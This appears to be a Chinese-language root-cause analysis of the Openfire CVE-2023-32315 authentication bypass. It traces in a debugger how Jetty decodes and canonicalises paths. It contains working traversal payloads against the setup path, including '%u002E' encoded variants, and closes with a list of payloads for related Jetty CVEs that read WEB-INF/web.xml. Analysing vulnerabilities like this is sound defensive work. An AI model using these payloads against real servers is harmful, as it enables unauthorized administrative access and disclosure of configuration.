 
参考：
- https://github.com/vulhub/vulhub/blob/master/openfire/CVE-2023-32315/README.zh-cn.md

### 环境搭建

```bash
wget https://github.com/igniterealtime/Openfire/releases/download/v4.7.3/openfire_4_7_3.tar.gz
tar zxf openfire_4_7_3.tar.gz
cd bin
chmod +x ./openfire.sh
./openfire.sh start -debug
```
即可监听在5005端口进行调试。

payload:
```
/setup/setup-/../../log.jsp
```

![image](https://github.com/shadowsock5/Poc/assets/30398606/2e63de08-0853-49cb-b267-e050b57f7ce6)
说明到这里的时候，不能有`%2e`。
将`../../`进行unicode编码，得到：
```
/setup/setup-/\u002E\u002E/\u002E\u002E/log.jsp
```

![image](https://github.com/shadowsock5/Poc/assets/30398606/d3db00ec-f5c3-41d4-8648-ca43b14a4d83)

虽然能过认证，但是响应是这样的：
![image](https://github.com/shadowsock5/Poc/assets/30398606/ddd0cd28-6882-455e-bc6f-b5da33a34023)

直接抄答案，
```
/setup/setup-/%u002E%u002E/%u002E%u002E/log.jsp
```
绕过了。
![image](https://github.com/shadowsock5/Poc/assets/30398606/e7615e3e-f554-4c39-a058-46cc2c97ed4a)

调试看一下为什么？

注意这里的log.jsp并不是真的存在这个文件，而是在web.xml中有其映射的servlet。
```xml
    <servlet>
        <servlet-name>org.jivesoftware.openfire.admin.log_jsp</servlet-name>
        <servlet-class>org.jivesoftware.openfire.admin.log_jsp</servlet-class>
    </servlet>
...
    <servlet-mapping>
        <servlet-name>org.jivesoftware.openfire.admin.log_jsp</servlet-name>
        <url-pattern>/log.jsp</url-pattern>
    </servlet-mapping>
```

在这里下断点：
org.jivesoftware.openfire.admin.log_jsp#_jspService

![image](https://github.com/shadowsock5/Poc/assets/30398606/e7811e9d-0332-4242-94c9-ca1cb518afad)
断下来之后往前回溯。
![image](https://github.com/shadowsock5/Poc/assets/30398606/7ae5ced4-59e4-40f0-a618-46db5ac750fe)

openfire\lib\jetty-servlet-9.4.43.v20210629.jar!\org\eclipse\jetty\servlet\ServletHolder.class# handle


在这里
openfire\lib\jetty-http-9.4.43.v20210629.jar!\org\eclipse\jetty\http\HttpURI.class
看到了：
```java

    static {
        __ambiguousSegments.put(".", Boolean.FALSE);
        __ambiguousSegments.put("%2e", Boolean.TRUE);
        __ambiguousSegments.put("%u002e", Boolean.TRUE);
        __ambiguousSegments.put("..", Boolean.FALSE);
        __ambiguousSegments.put(".%2e", Boolean.TRUE);
        __ambiguousSegments.put(".%u002e", Boolean.TRUE);
        __ambiguousSegments.put("%2e.", Boolean.TRUE);
        __ambiguousSegments.put("%2e%2e", Boolean.TRUE);
        __ambiguousSegments.put("%2e%u002e", Boolean.TRUE);
        __ambiguousSegments.put("%u002e.", Boolean.TRUE);
        __ambiguousSegments.put("%u002e%2e", Boolean.TRUE);
        __ambiguousSegments.put("%u002e%u002e", Boolean.TRUE);
    }
```
所以从这里面看，只有不包含`%2e`的，能变成..的应该都可以，比如：
```
/setup/setup-/.%u002e/.%u002e/log.jsp
/setup/setup-/%u002e./%u002e./log.jsp
```

一些细节：
![image](https://github.com/shadowsock5/Poc/assets/30398606/f63dfd7a-6e23-4011-b2eb-3d1e56c534ef)

openfire\lib\jetty-util-9.4.43.v20210629.jar!\org\eclipse\jetty\util\URIUtil.class
![image](https://github.com/shadowsock5/Poc/assets/30398606/e291fb82-1dc0-473e-b059-466d4147709e)

openfire\lib\jetty-http-9.4.43.v20210629.jar!\org\eclipse\jetty\http\HttpURI.class
![image](https://github.com/shadowsock5/Poc/assets/30398606/d83c058a-3a45-4a6d-a2f1-7524af4508ca)
这里的
```java
String decodedNonCanonical = URIUtil.decodePath(this._path)
```
把
```
/setup/setup-/.%u002e/.%u002e/log.jsp
=>
/setup/setup-/../../log.jsp
```
然后
```java
this._decodedPath = URIUtil.canonicalPath(decodedNonCanonical)
```
把
```
/setup/setup-/../../log.jsp
=>
/log.jsp
```

这样在这里，
openfire\lib\jetty-server-9.4.43.v20210629.jar!\org\eclipse\jetty\server\HttpChannelOverHttp.class

![image](https://github.com/shadowsock5/Poc/assets/30398606/64f6a262-7743-4320-b199-fdfb98a811ec)

已经被转换成了`/log.jsp`。

再来看看为什么这个url对应到了log_jsp这个servlet：
![image](https://github.com/shadowsock5/Poc/assets/30398606/3880365a-e15f-4293-b004-5da88e8ca317)

这里直接就得到的是`NotAsync:org.jivesoftware.openfire.admin.log_jsp@6a5ef204`，调试一下怎么得到的。但是如果不是启动后第一次访问这个servlet，就没法得到`this._servlet`被赋值的过程。
重新启动，第一次访问即使用这个payload。
在openfire\lib\jetty-servlet-9.4.43.v20210629.jar!\org\eclipse\jetty\servlet\ServletHolder.class#initServlet的第一行下断点。
没找到。
最后在这里找到了
openfire\lib\jetty-servlet-9.4.43.v20210629.jar!\org\eclipse\jetty\servlet\ServletHandler.class#doScope
![image](https://github.com/shadowsock5/Poc/assets/30398606/26f9f1dd-50ac-49a6-b4c8-a408be079666)
在这一行就得到了/log.jsp对应的servlet：
```java
String old_path_info = baseRequest.getPathInfo()
```
看一下这个`pathInfo`是在哪里被set的：
有两处：

![image](https://github.com/shadowsock5/Poc/assets/30398606/8e6bd355-5e89-426d-a109-aaf1efefc411)
```java
setPathInfo:2210, Request (org.eclipse.jetty.server)
doScope:1340, ContextHandler (org.eclipse.jetty.server.handler)
handle:141, ScopedHandler (org.eclipse.jetty.server.handler)
handle:191, ContextHandlerCollection (org.eclipse.jetty.server.handler)
handle:146, HandlerCollection (org.eclipse.jetty.server.handler)
handle:127, HandlerWrapper (org.eclipse.jetty.server.handler)
handle:516, Server (org.eclipse.jetty.server)
lambda$handle$1:388, HttpChannel (org.eclipse.jetty.server)
dispatch:-1, 222164335 (org.eclipse.jetty.server.HttpChannel$$Lambda$142)
dispatch:633, HttpChannel (org.eclipse.jetty.server)
handle:380, HttpChannel (org.eclipse.jetty.server)
onFillable:277, HttpConnection (org.eclipse.jetty.server)
succeeded:311, AbstractConnection$ReadCallback (org.eclipse.jetty.io)
fillable:105, FillInterest (org.eclipse.jetty.io)
run:104, ChannelEndPoint$1 (org.eclipse.jetty.io)
runJob:883, QueuedThreadPool (org.eclipse.jetty.util.thread)
run:1034, QueuedThreadPool$Runner (org.eclipse.jetty.util.thread)
run:748, Thread (java.lang)
```

往前回溯。
发现在openfire\lib\jetty-server-9.4.43.v20210629.jar!\org\eclipse\jetty\server\Request.class#setMetaData
中会调用HttpURI uri.getDecodedPath()，即获取这个uri的`_decodedPath`属性。而这个uri之前已经被
```java
this._decodedPath = URIUtil.canonicalPath(decodedNonCanonical)
```
转换为`/log.jsp`了。
![image](https://github.com/shadowsock5/Poc/assets/30398606/9bd5534d-c1f7-4369-a870-f98f0fe307c0)
最后将这个path：`/log.jsp`设置到org.eclipse.jetty.server.Request的pathInfo上了。
![image](https://github.com/shadowsock5/Poc/assets/30398606/8ffe9b14-b50f-4219-ab0a-a4816ceda851)


## Ref
- https://mp.weixin.qq.com/s/cuULlP0F0Xf9Rhmkb-9H0g
- https://mp.weixin.qq.com/s/EzfB8CM4y4aNtKFJqSOM1w
- https://mp.weixin.qq.com/s/GeDkZrqq9EsBdxwKmiPmGw
- https://github.com/igniterealtime/Openfire/security/advisories/GHSA-gw42-f939-fhvm

## Jetty其他的漏洞相关
```py
# payload[0] ="/%2e/WEB-INF/web.xml" CVE-2021-28164
# payload[1] ="/%u002e/WEB-INF/web.xml" CVE-2021-34429
# payload[2] ="/.%00/WEB-INF/web.xml" CVE-2021-34429
# payload[3] ="/static?/%2557EB-INF/web.xml" CVE-2021-28169
```

- https://github.com/cwh945/JETTY-POC/blob/c40c4721a9c819268d5ba3767c9e08019fbda90a/CVE-2021-34429-jetty.py#L15
- https://mp.weixin.qq.com/s/QAqj-UbkLboaiE2FdMDB7A
- [CVE-2021-34429 jetty.project advisories](https://github.com/eclipse/jetty.project/security/advisories/GHSA-vjv5-gp2w-65vm)
- https://github.com/eclipse/jetty.project/security/advisories/GHSA-v7ff-8wcx-gmc5
- https://wx.zsxq.com/dweb2/index/topic_detail/218522852144241
